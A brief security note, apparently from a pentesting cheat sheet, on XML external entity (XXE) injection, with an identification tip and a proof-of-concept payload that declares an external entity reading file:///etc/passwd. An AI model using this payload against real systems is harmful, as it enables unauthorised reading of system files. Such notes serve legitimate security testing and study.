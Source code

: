 XXE -> XML injection

**Identify** :  similar to XSS reflected

POC payload :
```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
```

